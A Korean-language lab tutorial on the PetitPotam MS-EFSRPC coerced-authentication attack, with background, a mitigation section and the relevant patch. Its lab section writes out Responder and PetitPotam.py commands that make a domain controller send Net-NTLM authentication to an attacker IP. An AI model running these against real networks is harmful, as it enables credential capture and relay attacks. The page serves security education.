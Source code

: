 # MS-EFSRPC - Petitpotam

![](../../.gitbook/assets/petitpotam.drawio.png)

MS-EFSRPC RPC 함수들은 원격 호스트의 파일을 암호화하고 백업을 도와주기 위해서 만든 RPC이다.

2021년 7월경 [@topotam](https://github.com/topotam) 이라는 해커가 MS-EFSRPC 와 관련된 RPC 함수들 중 몇가지가 강제 인증에 취약하다는 사실을 발견했다. 또한, 몇 몇 RPC 함수들은 도메인 유저 인증이 아예 필요없이 강제 인증이 가능했다. 마지막으로, 모든 도메인 컨트롤러들이 취약한 상태에 놓여있었다. Topotam은 이 강제 인증 공격을 "PetitPotam" 이라고 이름을 붙였다.

### 실습

Petitpotam 과 자주 쓰이는 공격은 ADCS - ESC8 페이지에서 정리한다. 이 실습에서는 간단하게 Petitpotam 을 이용해서 도메인 컨트롤러의 NTLM 인증 트래픽을 받는다. 사용할 Petitpotam.py 툴은 [여기서 다운](https://github.com/topotam/PetitPotam) 받는다.

1. NTLM 인증 트래픽을 받을 Responder 세팅

```
responder -I <NIC> -v 
responder -I eth1 -v 
```

2\. Unauthenticated Petitpotam 을 이용해 유저 계정 없이 Petitpotam 공격

```
python3 Petitpotam.py <공격자 IP> <타 IP> 
python3 PetitPotam.py 192.168.40.182 192.168.40.160
```

공격 결과 확인

![](<../../.gitbook/assets/image (4) (2) (1).png>)

3\. Responder 를 통해서 도메인 컨트롤러의 Net-NTLM 인증 트래픽 확인

![](<../../.gitbook/assets/image (5) (2).png>)

### 대응 방안

Petitpotam 과 관련된 [패치](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)는 2021년 8월달에 발표됐다. 패치를 적용하면 유저 인증이 필요한 Petitpotam이나 필요없는 Petitpotam이나 모두 통하지 않는다.

### 레퍼런스

{% embed url="https://github.com/topotam/PetitPotam" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31" %}
